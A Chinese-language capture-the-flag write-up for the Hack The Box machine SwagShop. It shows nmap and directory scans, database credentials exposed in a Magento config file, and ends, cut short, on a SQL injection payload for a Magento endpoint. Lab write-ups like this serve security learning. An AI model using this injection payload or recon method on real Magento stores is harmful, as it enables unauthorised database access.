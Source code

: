 # 免责声明
>本文渗透的主机经过合法授权。本文使用的工具和方法仅限学习交流使用，请不要将文中使用的工具和渗透思路用于任何非法用途，对此产生的一切后果，本人不承担任何责任，也不对造成的任何误用或损害负责。

# 服务发现
```
┌──(root💀kali)-[~/htb/SwagShop]
└─# nmap -sV -sC 10.10.10.140 -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-15 03:57 EST
Nmap scan report for 10.10.10.140
Host is up (0.26s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://swagshop.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1190.67 seconds


```

先把靶机添加到host文件
```echo "10.10.10.140 swagshop.htb" >> /etc/hosts```

## 目录探测
```
┌──(root💀kali)-[~/dirsearch]
└─# python3 dirsearch.py -e* -t 100 -u http://swagshop.htb  

  _|. _ _  _  _  _ _|_    v0.4.2                                                                                                                                                                                                            
 (_||| _) (/_(_|| (_| )                                                                                                                                                                                                                     
                                                                                                                                                                                                                                            
Extensions: php, jsp, asp, aspx, do, action, cgi, pl, html, htm, js, json, tar.gz, bak | HTTP method: GET | Threads: 100 | Wordlist size: 15492

Output File: /root/dirsearch/reports/swagshop.htb/_21-12-15_04-25-16.txt

Error Log: /root/dirsearch/logs/errors-21-12-15_04-25-16.log

Target: http://swagshop.htb/

[04:25:17] Starting:           
[04:25:28] 301 -  309B  - /js  ->  http://swagshop.htb/js/                                                       
[04:25:40] 200 -   10KB - /LICENSE.txt                                      
[04:26:12] 200 -  571KB - /RELEASE_NOTES.txt                                                                
[04:26:19] 200 -   37B  - /api.php                                          
[04:26:19] 301 -  310B  - /app  ->  http://swagshop.htb/app/                
[04:26:19] 200 -    2KB - /app/                                             
[04:26:19] 200 -    2KB - /app/etc/local.xml                                
[04:26:19] 200 -    9KB - /app/etc/local.xml.additional                     
[04:26:19] 200 -    2KB - /app/etc/local.xml.template                       
[04:26:19] 200 -    5KB - /app/etc/config.xml                                  
[04:26:31] 200 -  717B  - /cron.sh                                          
[04:26:31] 200 -    0B  - /cron.php                                         
[04:26:37] 301 -  313B  - /errors  ->  http://swagshop.htb/errors/          
[04:26:38] 200 -    2KB - /errors/                                          
[04:26:39] 200 -    1KB - /favicon.ico                                      
[04:26:46] 200 -  946B  - /includes/                                        
[04:26:46] 301 -  315B  - /includes  ->  http://swagshop.htb/includes/      
[04:26:46] 200 -   16KB - /index.php                                        
[04:26:47] 200 -   44B  - /install.php                                      
[04:26:48] 200 -    4KB - /js/tiny_mce/                                     
[04:26:49] 301 -  318B  - /js/tiny_mce  ->  http://swagshop.htb/js/tiny_mce/
[04:26:50] 301 -  310B  - /lib  ->  http://swagshop.htb/lib/                
[04:26:50] 200 -    3KB - /lib/                                             
[04:26:54] 301 -  312B  - /media  ->  http://swagshop.htb/media/            
[04:26:55] 200 -    2KB - /media/                                           
[04:27:05] 200 -  886B  - /php.ini.sample                                   
[04:27:10] 301 -  314B  - /pkginfo  ->  http://swagshop.htb/pkginfo/        
[04:27:19] 403 -  300B  - /server-status                                    
[04:27:19] 403 -  301B  - /server-status/                                   
[04:27:20] 200 -    2KB - /shell/                                           
[04:27:21] 301 -  312B  - /shell  ->  http://swagshop.htb/shell/            
[04:27:24] 301 -  311B  - /skin  ->  http://swagshop.htb/skin/              
[04:27:34] 301 -  310B  - /var  ->  http://swagshop.htb/var/                
[04:27:34] 200 -  755B  - /var/backups/                                     
[04:27:34] 200 -    2KB - /var/                                             
[04:27:34] 200 -    4KB - /var/cache/                                       
[04:27:34] 200 -    9KB - /var/package/ 
```

首页显示是一个叫```Magento```的网站，在RELEASE_NOTES.txt 显示更新到```1.7.0.2```

```
==== 1.7.0.2 ====

=== Fixes ===
Fixed: Security vulnerability in Zend_XmlRpc - http://framework.zend.com/security/advisory/ZF2012-01 
Fixed: PayPal Standard does not display on frontend during checkout with some merchant countries
```

在```/app/etc/local.xml```页面貌似暴露出了一个mysql密码

```
<crypt>
<key>b355a9e0cd018d3f7f03607141518419</key>
</crypt>
<host>localhost</host>
<username>root</username>
<password>fMVWh7bDHpgZkyfqQXreTjU9</password>
<dbname>swagshop</dbname>
<initStatements>SET NAMES utf8</initStatements>
<model>mysql4</model>
<type>pdo_mysql</type>
<pdoType></pdoType>
<active>1</active>
```

不能用上面的登录信息登录ssh

catalog/product_frontend_action/synchronize?

type_id=recently_products&

ids[0][added_at]=&

ids[0][product_id][from]=?&

ids[0][product_id][to]=))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=1) -- -